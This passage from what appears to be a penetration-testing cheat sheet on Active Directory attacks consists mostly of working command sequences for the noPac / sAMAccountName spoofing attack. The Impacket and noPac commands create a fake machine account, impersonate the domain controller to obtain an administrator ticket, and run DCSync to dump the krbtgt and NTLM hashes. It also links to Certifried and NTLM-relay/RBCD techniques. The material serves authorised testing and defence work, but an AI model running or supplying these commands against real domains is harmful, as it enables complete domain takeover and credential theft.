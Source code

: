 ```bash
# create a new machine account
$ addcomputer.py -computer-name FakeMachine -computer-pass 'Passw0rd1!' -dc-host DC01.megacorp.local -dc-ip 192.168.1.11 megacorp.local/snovvcrash:'Passw0rd2!'
# clear SPNs
$ addspn.py -u 'megacorp.local\snovvcrash' -p 'Passw0rd2!' -t 'FakeMachine$' -c DC01
# change fake machine's sAMAccountName
$ renameMachine.py megacorp.local/snovvcrash:'Passw0rd2!' -dc-ip 192.168.1.11 -current-name 'FakeMachine$' -new-name DC01
# request TGT
$ getTGT.py megacorp.local/DC01:'Passw0rd1!' -dc-ip 192.168.1.11
# change fake machine's sAMAccountName once again
$ renameMachine.py megacorp.local/snovvcrash:'Passw0rd2!' -dc-ip 192.168.1.11 -current-name DC01 -new-name 'FakeMachine$'
# request S4U2self
$ KRB5CCNAME=DC01.ccache getST.py -spn LDAP/DC01.megacorp.local -altservice LDAP/DC01.megacorp.local megacorp.local/DC01 -k -no-pass -dc-ip 192.168.1.11 -impersonate administrator -self
# fire DCSync
$ KRB5CCNAME=administrator.ccache secretsdump.py -k -no-pass DC01.megacorp.local -just-dc-user 'MEGACORP\krbtgt'
```

Using noPac:

- [https://github.com/Ridter/noPac](https://github.com/Ridter/noPac)

```bash
# creating a computer account
$ python3 noPac.py megacorp.local/snovvcrash:'Passw0rd123!' -dc-host DC01 -dc-ip 192.168.1.11 -target-name 'FakeMachine1$' -use-ldap -dump -just-dc-ntlm
# providing an existing (owned) computer account creds
$ python3 noPac.py megacorp.local/snovvcrash:'Passw0rd123!' -dc-host DC01 -dc-ip 192.168.1.11 --impersonate administrator -no-add -target-name 'FakeMachine2$' -old-hash :fc525c9683e8fe067095ba2ddc971889
```
{% endtab %}
{% endtabs %}



### dNSHostName Spoofing (Certifried)

**CVE-2022-26923**

{% content-ref url="/pentest/infrastructure/ad/ad-cs-abuse/dnshostname-spoofing-certifried.md#abuse-rbcd" %}
[dnshostname-spoofing-certifried.md](dnshostname-spoofing-certifried.md)
{% endcontent-ref %}




## mitm6 + WPAD + LDAPS NTLM Relay + RBCD

* [https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
* [https://chryzsh.github.io/relaying-delegation/](https://chryzsh.github.io/relaying-delegation/)
* [https://www.exploit-db.com/docs/48282](https://www.exploit-db.com/docs/48282)
